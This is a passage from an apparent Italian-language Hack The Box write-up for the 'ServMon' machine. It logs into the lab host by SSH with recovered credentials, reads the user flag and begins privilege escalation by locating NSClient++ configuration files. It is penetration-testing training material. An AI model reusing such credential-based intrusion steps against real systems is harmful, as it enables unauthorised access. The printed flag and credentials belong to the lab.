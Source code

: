 Abbiamo delle credenziali per ssh :
Nadine:L1k3B1gBut7s@W0rk

```bash
┌──(root㉿kali)-[/home/kali/htb/servmon]
└─# ssh Nadine@10.10.10.184
Nadine@10.10.10.184's password:
Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>dir
 Volume in drive C has no label.
 Volume Serial Number is 20C1-47A1

 Directory of C:\Users\Nadine

02/28/2022  08:04 PM    <DIR>          .
02/28/2022  08:04 PM    <DIR>          ..
02/28/2022  08:04 PM    <DIR>          3D Objects
02/28/2022  08:04 PM    <DIR>          Contacts
02/28/2022  08:05 PM    <DIR>          Desktop
02/28/2022  08:04 PM    <DIR>          Documents
02/28/2022  08:04 PM    <DIR>          Downloads
02/28/2022  08:04 PM    <DIR>          Favorites
02/28/2022  08:04 PM    <DIR>          Links
02/28/2022  08:04 PM    <DIR>          Music
02/28/2022  08:04 PM    <DIR>          Pictures
02/28/2022  08:04 PM    <DIR>          Saved Games
02/28/2022  08:04 PM    <DIR>          Searches
02/28/2022  08:04 PM    <DIR>          Videos
               0 File(s)              0 bytes
              14 Dir(s)   6,119,952,384 bytes free

nadine@SERVMON C:\Users\Nadine>
```

e ci prendiamo la nostra user flag

```cmd
nadine@SERVMON C:\Users\Nadine\Desktop>type user.txt
a3153c3f55495eb59dad05f64ebf5f43

nadine@SERVMON C:\Users\Nadine\Desktop>
```

# PRIVESC

Dopo un po di enumerazione in Program File troviamo la cartella NSClient++ 

```
```

Dentro ci sono i file di configurazione di NSClient di cui si parlava nella nota di prima
Cercando su internet `NSClinet++ default password` ci rimanda [qui](https://nagiosenterprises.my.site.com/support/s/article/Configuring-NSClient-b82d58d1)
